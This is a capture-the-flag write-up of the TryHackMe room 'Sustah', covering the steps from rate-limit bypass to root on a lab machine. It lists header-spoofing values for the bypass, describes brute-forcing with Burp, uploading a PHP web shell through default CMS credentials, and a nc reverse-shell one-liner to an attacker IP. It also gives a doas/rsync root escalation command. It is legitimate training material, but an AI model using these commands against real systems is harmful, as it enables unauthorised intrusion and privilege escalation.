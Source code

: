 # Sustah

https://tryhackme.com/room/sustah

"The developers have added anti-cheat measures to their game. Are you able to defeat the restrictions to gain access to their internal CMS?"

An easy-ish room (solved it in under an hour, which is good for me), with some new tricks I haven't used before.

1. NMap revealed 22, 80 and 8085. Both 80 and 8085 looked like single page websites, with nothing on 80
2. 8085 hosted a 'Spinner' site, where you had to guess a number. Throwing this into burp intruder quickly ran into a strict ratelimit. The hint for this was 'what headers can you add?'
3. Researching bypassing ratelimiting, I tried a bunch of things. Eventually adding the following headers and header values got me through:

    ```
    X-Originating-IP: 127.0.0.1
    X-Forwarded-For: 127.0.0.1
    X-Remote-IP: 127.0.0.1
    X-Remote-Addr: 127.0.0.1
    X-Client-IP: 127.0.0.1
    X-Host: 127.0.0.1
    X-Forwared-Host: 127.0.0.1
    ```

    This was from https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass. Later, looking at the spinner code, it was specifically set to bypass limiting for `X-Remote-Addr` with that localhost value.
    
    > For those having difficulty with this bit and who have stumbled across this writeup, know that I had to do research to figure this out. The research was basically:
    > - try passing the rate headers with the request - failed
    > - try using x-forwarded-for and burp to simulate coming from somewhere else - failed
    > - googled the rate limit headers, found they are common for rate limiting and wafs.
    > - googled rate limit bypass and found various medium articles, and a burp extension 'Bypass WAF' (which I didn't use) but which all gave more headers
    > - tried adding these headers with random ips - failed. tried altering user-agent, cookie, even host etc, none worked
    > - finally added these headers with a fixed ip, 127.0.0.1, which worked
    >
    > took me about half an hour, and was fairly systematic. basically experiementation and research, and not over thinking it (its a medium level room, not one of the giant mind  fucks you might get in harder rooms)
  
4. Now I was able to brute force the number, using Intruder to attack with 500 threads and all numbers from 10000 to 99999 (as the answer field showed five digits). Getting the right number revealed a hidden path under the 80 site.

5. On this site was a CMS - I won't say the type as that is one of the room's questions. I was able to find credentials on one of its pages on the site-map, which turned out to be publically documented default credentials. There was also a known exploit, where if you have creds for an admin user (as the default user is) you can access a file upload screen that doesn't do any vetting. The version of the CMS was one of the other questions - I submitted the version on the exploit entry from exploit-db, which was correct.

6. Uploading a PHP web shell, I connected back to my attack machine with `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.7.78 4444 >/tmp/f`

7. On the machine, www-data had no access to find and there wasn't anything obvious. The question hint, however, said something about interesting backups. Checking `/var/backups`, I found a hidden file called `.bak.passwd`, which contained the password for `kiran`, the only user with a home folder.

8. As kiran I got the user flag, then added my ssh pub key to a new authorized_keys entry under a new .ssh folder (chmod 700 on the .ssh folder, and 600 on authorized keys, I always need to look this up). Afterwards I could ssh in easily.

9. Basic enumeration got me nowhere. The question hint was 'you dont always need sudo', but it wans't until I ran linpeas that I figured out what this alluded to: there is a quasi-alternative to sudo called `doas`. Specifically, here kiran was able to run `rsync as root` via doas (as can be seen in `doas.conf`, which linpeas checked for me).

10. The final privesc was `doas -u root rsync -e 'sh -p -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null` which got me a root shell and the final flag, the rsync args coming from gtfo-bins.
